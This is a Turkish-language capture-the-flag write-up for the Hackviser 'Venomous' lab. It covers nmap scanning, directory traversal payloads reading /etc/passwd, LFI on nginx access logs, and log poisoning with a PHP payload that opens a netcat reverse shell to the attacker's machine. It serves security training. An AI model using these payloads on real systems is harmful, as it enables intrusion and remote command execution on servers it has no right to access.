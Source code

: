 ```yaml
---
title: Venomous
date: 2024-03-27 12:23:12 
categories: [Hackviser]
tags: [LFI , Log Poisoning , Warmups]  
image: /images/venomous.webp
---
```


Bu makine, sunucudaki dosya sistemine erişmeye neden olan directory traversal ve web uygulamasına yerel dosyaları dahil edilmesine neden olan LFI zafiyetlerinin nasıl istismar edileceğini öğretmeye odaklanır.

Nginx web sunucusunda çalışan web uygulamalarında file upload, directory traversal ve LFI zafiyetlerini tespit ve istismar etme, log poisoning yöntemiyle reverse shell elde etme konularıyla ilgili alıştırmalar yapmak için önerilir.

<a href="https://app.hackviser.com/warmups/venomous">Venomous</a>

---

1- Hangi web sunucusu çalışıyor?

nmap taraması başlatalım.

````bash
┌──(root㉿kali)-[~]
└─# nmap -T4 -sV 172.20.6.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-30 11:25 EDT
Nmap scan report for 172.20.6.175 (172.20.6.175)
Host is up (0.074s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
````

- nginx

2- Bir faturayı görüntülemek için kullanılan GET parametresi nedir?


Websitesi açıldığında şöyle bir sayfa bizi karşılıyor. 

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/Venomous/images/1.png?raw=true)


Websitesini biraz inceledikten sonra Invoice sayfasına girip Download Report butonuna tıkladım. Açılan sayfada fatura görüntülemek için kullanılan `GET` parametresini bulduk

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/Venomous/images/2.png?raw=true)


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/Venomous/images/3.png?raw=true)



3- Sistemdeki passwd dosyasına erişmek için yaptığınız directory traversal saldırısının payloadı nedir?


directory traversal saldırısı kullanarak etc/password dosyasını okumamız isteniyor. Sırasıyla aşağıdaki payloadları deniyorum.

````
/etc/passwd
../etc/passwd
../../etc/passwd
../../../etc/passwd
../../../../etc/passwd
````

> Payloadlar her seferinde bir üst dizine çıkarak passwd dosyasına erişmeye çalışıyor.
{: .prompt-tip }

`../../../../etc/passwd` payloadı işe yaradı.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/Venomous/images/4.png?raw=true)



4- LFI güvenlik açığının açılımı nedir?

`Local File Inclusion`

5- Nginx access loglarının varsayılan yolu nedir?

Nginx web sunucusunun erişim logları varsayılan olarak `/var/log/nginx/access.log` yolundadır.


6- Siteye ilk erişim sağlayan kişinin IP adresi nedir?

/var/log/nginx/access.log.1 dosyasını görüntüleyerek istenilen bilgilere ulaşıyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/Venomous/images/5.png?raw=true)


7- show-invoice.php dosyasının son değiştirildiği saat nedir?

Bu bilgiyi elde edebilmemiz için makineye erişim sağlamamız gerekiyor. access.log dosyasında yaptığımız işlemlerin logu tutuluyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/Venomous/images/6.png?raw=true)


Log Poisoning yöntemiyle log dosyasına payload enjekte edebiliriz.

Öncelikle netcat çalıştırıyorum:
`nc -nvlp 1234`. 

Ardından hedef sunucunun 80 portunda netcat çalıştırıyorum:
`nc 172.20.6.175 80`

Sonrasında shell almamızı sağlayacak payloadı yazıyorum:
`GET /<?php passthru('nc -e /bin/sh 10.8.1.33 1234'); ?> HTTP/1.1
Host: 172.20.6.175
Connection: close`

Ve shellimizi alıyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/Venomous/images/7.png?raw=true)


ls -l komutuyla dosyanın değiştirme tarihini görebiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/Hackviser/Venomous/images/8.png?raw=true)


![fsoc](/images/fsoc.gif)
